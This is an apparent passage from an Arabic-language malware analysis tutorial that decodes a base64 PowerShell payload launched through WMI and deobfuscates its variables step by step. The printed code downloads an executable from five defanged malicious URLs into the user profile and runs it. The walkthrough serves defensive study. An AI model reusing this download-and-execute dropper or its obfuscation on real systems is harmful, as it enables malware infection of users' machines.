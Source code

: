 `CreateObject(winmgmts:Win32_Process).Create " powershell -nop -e " + "obfuscated powershell code "`

في هذه الأثناء سوف نقوم بإستخراج قيمة كود powershell  لمعرفة محتواه والأوامر التي يقوم بها. 

بالخطوات التالية: 
1.  إستخراج الكود في مثالنا هذا الملف  ب base64 
![](https://i.ibb.co/WDXN23M/17.png)
2. فك base64 بالاستعانة ب CyberChef 
![](https://i.ibb.co/xhfwtgC/16.png)
![](https://i.ibb.co/NWRfvSy/18.png)

3.  ترتيب الكود واستخراج القيم الصحية لكل متغير 
![](https://i.ibb.co/DpspD8q/20.png)

- بداية نلاحظ متغير 
` $tZTLXzZq=$env:userprofile+'\'+$d1mU0azd+'.exe';`
 
نقوم بترتيبه ليصبح 
`$tZTLXzZq=$env:userprofile\'+$d1mU0azd+'.exe';`

عند البحث عن متغير $d1mU0azd نجد قيمته تساوي 
`184`

فتصبح القيمة النهاية للمتغير tZTLXzZq  
`$tZTLXzZq=$env:userprofile\184.exe`

- بعد ذلك نقوم بفك المتغير التالي pTl4Jz

`$pTl4Jz=.('ne' +' w-object' ) nET.W ' EbC' Li' Ent;`
 

ليصبح 
`$pTl4Jz=.('new-object') net.webclient;`

- بعد ذلك متغير NUzAMAR والذي نلاحظ انه يحتوي على سلسة من القيم domains 

`$NUzAMAR='hxxp://agavea.com.br/font/tMfyxzMEnQ/@hxxp://news-week.ru/2018/wvq6nzd_kywgcjzgi-273/@hxxp://ab.fitzio.com/cgi-bin/opiFtEAsf/@hxxp://palmbeachresortcebu.com/wp-content/uploads/t9smfqj3_blm4xo-69526194/@hxxp://thingsmadeforyouapps.com/wp-admin/VpVOXxek/'.SPLit('@');` 

وفي نهاية المتغير مناداة للدالة SPLit تفصل بين القيم @  
لتصبح القيم النهاية  للمتغير NUzAMAR  


`$NUzAMAR='hxxp://agavea.com.br/font/tMfyxzMEnQ/     
hxxp://news-week.ru/2018/wvq6nzd_kywgcjzgi-273/     
hxxp://ab.fitzio.com/cgi-bin/opiFtEAsf/    
hxxp://palmbeachresortcebu.com/wp-content/uploads/t9smfqj3_blm4xo-69526194/     
hxxp://thingsmadeforyouapps.com/wp-admin/VpVOXxek/';`

- ننتقل للمتغير التالي نلاحظ foreach تقوم في كل مرة بمناداة قيمة من قيم السلسة NUzAMAR  
 foreach($j5YzrQKQ in $NUzAMAR)  

NUzAMAR  قيم domains  التي قمنا باستخراجها بالفقرة السابقة.

`$pTl4Jz.DOwNlOADfiLe($j5YzrQKQ, $tZTLXzZq);
	        $SHHj3v='Mpi_Cz1s';
               If ((.('G'+'et'+'-Item') $tZTLXzZq).LenGTh -ge 31421) 
			{[Diagnostics.Process]::sTarT($tZTLXzZq);`  
